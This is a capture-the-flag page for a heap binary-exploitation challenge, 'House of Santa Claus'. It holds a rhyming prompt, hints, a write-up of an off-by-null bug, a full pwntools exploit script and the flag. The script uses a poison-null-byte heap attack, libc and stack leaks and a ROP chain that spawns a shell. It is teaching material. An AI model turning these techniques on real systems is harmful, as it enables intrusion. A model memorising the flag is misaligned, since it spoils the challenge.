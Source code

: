 # House of Santa Claus

- Published: 12/25/2024 (#25/25 in event)
- Category: Binary exploitation
- Points: 200
- Author: Kolmus

Through halls adorned with yuletide cheer,  
Lies a secret no one dares go near.  
In the House of Santa, deep and dark,  
A mystery lurks, waiting to leave its mark.

Elves speak of whispers in the night,  
Of a backdoor hidden out of sight.  
Crafted by the sharpest mind,  
A flaw for only the brave to find.

Snowflakes fall in silent grace,  
Masking the danger in this place.  
Many have ventured, bold and bright,  
But none have returned to tell of their plight.

Can you, dear challenger, face the test?  
Outwit the fortress and be the best?  
Unlock the secrets, break the chains,  
Solve the puzzle where darkness reigns.

Santa’s house is not what it seems,  
A labyrinth of code, a realm of dreams.  
With malloc and free, the game is set,  
Enter now, if you dare, with no regret.

This Christmas, the gauntlet is thrown,  
In the House of Santa, your skills must be shown.  
An epic quest, where legends are made,  
Dive into the code, and do not be afraid.

For in the heart of Santa's lair,  
Lies the secret, if you dare.  
Crack the heap, find the flaw,  
And become the hero of them all.

Connect using `nc ctf.csd.lol 8888`.

## Attachments

- [hosc](https://files.vipin.xyz/api/public/dl/jG_bmWE0/Day%2025%20-%20help/hosc)
- [libc.so.6](https://files.vipin.xyz/api/public/dl/gVMlV7Sp/Day%2023%20-%20help/libc.so.6)
- [ld-linux-x86-64.so.2](https://files.vipin.xyz/api/public/dl/FPHHhdd7/Day%2023%20-%20help/ld-linux-x86-64.so.2)

## Hints

**Hint 1:**

In the heart of the code, a riddle lies,  
A tiny flaw, hidden from plain eyes.  
It’s part of every string you see,  
Yet, at the same time, it seems to flee.

Before you ponder why things go amiss,  
Understand the rules in this abyss.  
Constraints are key, don’t overlook,  
Or you’ll be ensnared by this cryptic hook.

**Hint 2:**

Seek the wisdom of those who've tread,  
Shellphish's how2heap, the path ahead.  
Copy-pasting won't lead to the crown,  
A proof of concept may let you down.

To find the way, you must explore,  
Beyond the guides, delve into the core.  
The challenge here is more than mere jest,  
Solve the puzzle, and pass the true test.

## Write-up

<details>
<summary>Reveal write-up</summary>

The program has an off-by-null error in the scanf option.

```c
// (reverse engineered pseudo code)
// malloc option
...
    alloc_struct.allocations[idx] = malloc(size);
    alloc_struct.sizes[idx] = size;
...
// scanf option
...
    int size = alloc_struct.sizes[idx];

    if (size != 0) {
        char fmt[16];
        snprintf(fmt, 16, "%%%ds", size);
        scanf(fmt, alloc_struct.allocations[idx]);
        continue;
    }
...
```

Another thing it fails to do is to clear new allocations. This will later allow us to leak a libc pointer through an
unsorted bin chunk.

There are two common heap exploitation techniques that can be used for an off-by-null bug. House of Einherjar and poison
null byte. House of Einherjar is probably easier to use in this case, but I chose to adapt a poison null byte script I
had already lying around. It's important to note that whitespace characters `b'\t\n\v\f\r '` can't be used in a payload
since scanf is used to read user input. We're also limited to 16 concurrent allocations.

The poison null byte POC leaves me with an overlapping chunk that I then use to read from and write to a freed pointer.
This gets me arbitrary read/write on any 16bit aligned address. After leaking libc, I leak a stack pointer through
`__libc_argv` and overwrite scanf's return address with a rop chain to pop a shell.

For more information refer to the comments in the script.

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./hosc_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

context.terminal = ['cmd.exe', '/c', 'start', 'cmd.exe', '/c', 'wsl.exe']

HOST = 'ctf.csd.lol'
PORT = 8888

def debug(p):
    gdb.attach(p)
    input('debugger started. press enter to continue ...')

def conn():
    if args.REMOTE:
        p = remote(HOST, PORT)
    else:
        p = process([exe.path])
    return p

# scanf is used to take input. for %[width]s scanf stops reading at the first white space character (or when the field width is reached).
bad_scanf = b'\t\n\v\f\r '

'''
struct alloc_struct {
    void *allocations[16];
    int sizes[16];
};
'''

# helper functions:
def malloc(idx=0, size=16):
    # max size is 0x1000 -> we can use all bins
    '''
    alloc_struct.allocations[idx] = malloc(size)
    alloc_struct.sizes[idx] = size
    '''
    global p
    p.clean()
    p.sendline(b'malloc %d %d' % (idx, size))

def free(idx=0):
    # checks whether the index is allocated first. no double free.
    '''
    free(alloc_struct.allocations[idx])
    alloc_struct.allocations[idx] = 0
    alloc_struct.sizes[idx] = 0
    '''
    global p
    p.clean()
    p.sendline(b'free %d' % (idx))

def puts(idx=0):
    # checks whether the index is allocated first. no uaf.
    '''
    printf("data: ");
    puts(alloc_struct.allocations[idx]);
    '''
    global p
    p.clean()
    p.sendline(b'puts %d' % (idx))

def scanf(idx=0, data=p64(0)):
    # checks whether the index is allocated first. no uaf.
    '''
    scanf(0, scratch, alloc_struct.sizes[idx])
    memcpy(alloc_struct.allocations[idx], scratch, alloc_struct.sizes[idx])
    alloc_struct.allocations[idx][alloc_struct.sizes[idx]] = 0
    '''
    if any ((b in bad_scanf) for b in data):
        print(data)
        print('bad bytes:', ' '.join(hex(b) for b in data if b in bad_scanf))
        raise ValueError('bad bytes')

    global p
    p.clean()
    p.sendline(b'scanf %d ' % (idx) + data)

def mangle(heap_address, value):
    return (heap_address >> 12) ^ value

# poison null byte - modified to work with the challenge
# original POC: https://github.com/shellphish/how2heap/blob/master/glibc_2.39/poison_null_byte.c
'''
the goal here is to create a fake chunk that will be placed in the unsorted bin through backward
consolidation of the victim chunk. the fake chunk will be created insite another chunk's data
so that part of it gets freed and available for allocation while the actual chunk is still in use.
this means we will end up with 2 chunks overlapping. one will start at ...0010 and the other at ...0020.
'''

while True:
    try:
        p = conn()

        # allocate padding
        '''
        I noticed that the first allocation will always start at ...2a0
        here I am hoping for aslr giving me an address with ...f2a0 at the end
        this malloc will then bump the heap up to ...10010 with a relatively small padding chunk
        '''
        malloc(12, 0xd60)

        # allocate prev chunk and victim chunk
        '''
        here I use 0xf08 instead of 0x500 like the POC.
        this is so that the metadata of prev and victim will overlap 8 bytes by default.
        to save memory, the pre_size field of a chunk whose PREV_INUSE bit is set
        (i.e., the previous chunk is not free) is used by the previous chunk!
        the reason I use 0xf08 and not 0x508 is because following the setup of the POC
        will result in white space characters in the data I send later.
        '''
        malloc(0, 0xf08) # prev.size will still be 0xf10
        malloc(14, 0xef0) # victim chunk

        malloc(15, 0x10) # guard chunk to avoid consolidation

        # link prev into largebin
        '''
        this is where it gets interesting. to populate the fd and bk pointers of the fake chunk, we will
        use the fd_nextsize and bk_nextsize fields of the "prev" chunk. to do this, we need to link "prev"
        into the largebin and give it 2 more neighbors (a and b) so that there will actually be a
        fd_nextsize and bk_nextsize field to be written into "prev"s fields.
        a has to be a little bit smaller than prev and b has to be a little bit bigger than prev.
        '''
        malloc(1, 0xef0)
        malloc(2, 0x10) # guard chunk to avoid consolidation

        malloc(3, 0xf20) # for some reason I used 0xf20 when it should have been 0xf10 (but if I change it, the rest somehow breaks lol)
        malloc(4, 0x20) # guard chunk to avoid consolidation

        '''
        Current Heap Layout. no bad bytes in any important address.
            ... ...
        padding
            prev Chunk(addr=0x??0010, size=0xf10)
            victim Chunk(addr=0x??0f20, size=0xf00)
        barrier Chunk(addr=0x??1e20, size=0x20)
                a Chunk(addr=0x??1e40, size=0xf00)
        barrier Chunk(addr=0x??2d40, size=0x20)
                b Chunk(addr=0x??2d60, size=0xf30)
        barrier Chunk(addr=0x??3c90, size=0x20)
        '''

        # now free the chunks
        free(1)
        free(3)
        free(0)
        # current unsorted_bin: header <-> [prev, size=0xf10] <-> [b, size=0xf30] <-> [a, size=0xf00]
        # allocate a big chunk to sort the unsorted bin and get the 3 chunks into largebin
        malloc(5, 0x1000)
        # current large_bin: header <-> [b, size=0xf30] <-> [prev, size=0xf10] <-> [a, size=0xf00]
        # the fd_nextsize of prev now points to a: ...1e40
        # the bk_nextsize of prev now points to b: ...2d60

        # allocate prev again to construct the fake chunk
        malloc(13, 0xf08) # = ...0010
        # I use this moment to leak the fd pointer of prev2 which points to the chunk of "a" (...1e30)
        puts(13)
        p.recvuntil(b'data: ')
        leak = u64(p.recv(6).ljust(8, b'\0'))
        print('HEAP LEAK:', hex(leak))
        # verify that the heap base acutally started where we wanted it to
        if (leak-0x1e30) & 0xffff != 0:
            p.close()
            continue

        effective_heap_base = leak - 0x1e30
        print('EFFECTIVE HEAP BASE:', hex(effective_heap_base))
        # we now use the leaked ptr to create a fake chunk inside prev2.
        fd = leak
        print('fd:', hex(fd))
        bk = leak + 0xf20
        print('bk:', hex(bk))

        scanf(13, p64(0) + p64(0xf01) + p64(fd) + p64(bk) + b'\0'*0xee0)

        malloc(6, 0xf20)

        scanf(6, b'\x10') # this changes ...1e30 to ...0010 (the null is from the off-by-null)

        malloc(7, 0xef0)
        free(7)
        # now if we free victim into the unsorted bin as well, a->bk will point to victim (...0f10)
        free(14)
        # now we take a back out of the unsorted bin
        malloc(8, 0xef0)
        # now we can modify a->bk the same way we did with b->fd, and change it to our fake chunk (...0010)
        scanf(8, p64(0) + b'\x10')

        # use backward consolidation to add the fake chunk into unsorted bin
        # first, we take the victim chunk back out of the unsorted bin
        malloc(9, 0xef0)
        # now we write all of the fake data again, but this time we overflow the null into victim.size
        # this will mark the fake chunk as free.
        scanf(13, p64(0) + p64(0xf01) + p64(fd) + p64(bk) + b'\0'*0xee0 + p64(0xf00))

        free(9)

        # end poc.

        malloc(9, 0x10) # padding
        malloc(10, 0xef0-0x20) # ...0040
        free(13)
        malloc(13, 0x20) # padding

        malloc(11, 0xee0) # ...0040

        free(11)
        malloc(11, 0xee0) # ...0040
        puts(10)
        p.recvuntil(b'data: ')

        leak = u64(p.recv(6).ljust(8, b'\0'))
        print('LIBC LEAK:', hex(leak))

        libc_base = leak - 0x2041a0
        print('LIBC BASE:', hex(libc_base))

        __libc_argv = libc_base + 0x2046e0 # unlike environ, this is 16bit aligned
        print('__libc_argv:', hex(__libc_argv))

        free(5)
        free(11)
        malloc(11) # ...0040
        malloc(5) # ...0060
        free(5)
        free(11)

        mangled = mangle(effective_heap_base+0x40, __libc_argv)
        print('-> mangled:', hex(mangled))

        scanf(10, p64(mangled))

        malloc(11) # ...0040
        malloc(5) # __libc_argv

        puts(5)
        p.recvuntil(b'data: ')

        __libc_argv_leak = u64(p.recv(6).ljust(8, b'\0'))
        print('__libc_argv_leak:', hex(__libc_argv_leak))

        scanf_ret_minus_0x18 = (__libc_argv_leak - 0x128) - 0x100
        print('scanf_ret_minus_0x18:', hex(scanf_ret_minus_0x18))

        free(2)
        free(4)
        malloc(2, 0x100) # ...0060
        malloc(4, 0x100) # ...0170
        free(4)
        free(2)

        mangled = mangle(effective_heap_base+0x60, scanf_ret_minus_0x18)
        print('-> mangled:', hex(mangled))

        main_arena = libc_base + 0x203ac0
        key = main_arena + 0x60
        key = main_arena + 0x70
        print('fake key:', hex(key)) # not sure if this is even necessary

        scanf(10, b'A'*0x30 + p64(0) + p64(0x111) + p64(mangled) + p64(key))

        malloc(2, 0x100) # ...0080
        malloc(4, 0x100) # scanf_ret_minus_0x18

        puts(4)
        p.recvuntil(b'data: ')

        scanf_ret_minus_0x18_leak = u64(p.recv(6).ljust(8, b'\0'))
        print('scanf_ret_minus_0x18_leak:', hex(scanf_ret_minus_0x18_leak))

        print('building ROP chain ...')
        libc.address = libc_base
        rop = ROP(libc, badchars=bad_scanf)

        # setuid(0), system('/bin/sh')

        rop.setuid(0) # root shell if suid ...
        rop.system(next(libc.search(b'/bin/sh\x00')))

        print(rop.dump())

        scanf(4, p64(0)*3 + rop.chain())

        p.interactive()
        # cat flag.txt
        # csd{XM4s_I5_N07_TH3_tImE_4_P01sOnoU5_4cT5}
        break
    except ValueError:
        p.close()
```

Flag: `csd{XM4s_I5_N07_TH3_tImE_4_P01sOnoU5_4cT5}`

</details>

Write-up by Kolmus
